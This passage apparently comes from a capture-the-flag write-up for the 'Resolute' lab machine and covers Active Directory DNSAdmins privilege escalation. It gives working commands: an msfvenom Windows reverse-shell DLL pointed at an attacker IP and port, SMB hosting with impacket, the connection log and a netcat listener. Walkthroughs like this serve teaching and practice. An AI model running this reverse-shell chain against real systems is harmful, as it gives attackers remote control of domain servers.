 Searching about DNSAdmin, I found this privesc post - [https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2)

Constructing the msfvenom payload

```jsx
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.51 LPORT=4444 -f dll > privesc.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 5120 bytes
```

We can then host this using impacket-smbserver 

```jsx
impacket-smbserver exploit ./
```

You can test the server by using net view

```jsx
net view \\10.10.14.51\exploit
net.exe : The Server service is not started.
    + CategoryInfo          : NotSpecified: (The Server service is not started.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError

More help is available by typing NET HELPMSG 2114.
```

But you may get this error, as long as you see the incoming connection on your smbserver, it all works

```jsx
[*] Incoming connection (10.10.10.169,50789)
[*] AUTHENTICATE_MESSAGE (\,RESOLUTE)
[*] User RESOLUTE\ authenticated successfully
[*] :::00::4141414141414141
[*] Disconnecting Share(1:EXPLOIT)
[*] Handle: 'ConnectionResetError' object is not subscriptable
[*] Closing down connection (10.10.10.169,50789)
[*] Remaining connections []
```

Set up your netcat listener

```jsx
nc -lvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

Now the next few steps involve you to have quick hands as the settings are reset every minute, the easiest way I found was to have already typed all the commands and just use the arrow keys to go through your history to get through them quickly
